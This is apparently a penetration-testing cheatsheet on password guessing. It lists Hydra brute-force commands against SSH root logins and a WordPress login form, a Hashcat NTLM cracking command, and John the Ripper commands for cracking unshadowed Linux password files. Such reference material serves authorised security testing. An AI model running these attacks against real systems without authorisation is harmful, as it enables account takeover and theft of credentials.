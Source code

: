 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/Cheatsheets/exploit_password_guessing.md">Top of Page</a> |
  <a href="/Cheatsheets/exploit_password_guessing.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheet - Password Guessing
## Table of Contents
* [Online](#online)
  * [Hydra](#hydra) 
* [Offline](#offline)
  * [Hashcat](#hashcat)
  * [John the Ripper](#john-the-ripper)

## Online
### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

## Offline
### Hashcat
```bash
hashcat -m 1000 -a 0 --force --show hashes.dump /usr/share/wordlists/rockyou.txt 
```

### John the Ripper
```bash0 
unshadow demo-passwd demo-shadow > demo-unshadow
john demo-unshadow --wordlist=/usr/share/wordlists/rockyou.txt
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/Cheatsheets/exploit_password_guessing.md">Top of Page</a> |
  <a href="/Cheatsheets/exploit_password_guessing.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
